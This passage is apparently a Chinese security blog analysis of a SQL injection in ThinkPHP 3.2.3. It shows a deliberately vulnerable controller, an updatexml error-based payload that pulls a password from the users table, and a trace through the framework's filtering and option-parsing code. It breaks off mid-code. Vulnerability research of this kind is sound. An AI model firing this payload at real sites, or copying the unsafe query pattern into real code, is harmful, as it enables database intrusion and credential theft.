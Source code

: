 ![image](https://y4er.com/img/uploads/20191127223938.jpg)
然后访问 http://php.local/thinkphp3.2.3/ 会自动生成模块，当前目录结构
<details><summary>太多了，展开查看</summary></details>

## 配置控制器
Application/Home/Controller/IndexController.class.php
```php
public function index()
{
$data = M('users')->find(I('GET.id'));
var_dump($data);
}
```
![image](https://y4er.com/img/uploads/20191127224711.jpg)

## payload
```
http://php.local/thinkphp3.2.3/?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)#
```
## 分析
当我们简单传入`id=1'`时，跟着走一遍

`I()`函数中获取参数，会经过`ThinkPHP/Common/functions.php:391` `htmlspecialchars()`进行处理，最后在`ThinkPHP/Common/functions.php:442`回调`think_filter`函数进行过滤
```php
function think_filter(&$value)
{
    // TODO 其他安全过滤

    // 过滤查询特殊字符
    if (preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i', $value)) {
        $value .= ' ';
    }
}
```
然后进入`ThinkPHP/Library/Think/Model.class.php:779`的`find()`方法，又会经过`ThinkPHP/Library/Think/Model.class.php:811` `_parseOptions()`方法
![image](https://y4er.com/img/uploads/20191127220223.jpg)
到这我们的id还是为`1'`的
![image](https://y4er.com/img/uploads/20191127226415.jpg)
跟进`_parseOptions()` `ThinkPHP/Library/Think/Model.class.php:681`
其中有类型验证`_parseType()`函数
```php
// 字段类型验证
if (isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join'])) {
    // 对数组查询条件进行字段类型检查
    foreach ($options['where'] as $key => $val) {
        $key = trim($key);
        if (in_array($key, $fields, true)) {
            if (is_scalar($val)) {
                $this->_parseType($options['where'], $key);
            }
        } elseif (!is_numeric($key) && '_' != substr($key, 0, 1) && false === strpos($key, '.') && false === strpos($key, '(') && false === strpos($key, '|') && false === strpos($key, '&')) {
            if (!empty($this->options['strict'])) {
                E(L('_ERROR_QUERY_EXPRESS_') . ':[' . $key . '=>' . $val . ']');
            }
            unset($options['where'][$key]);
```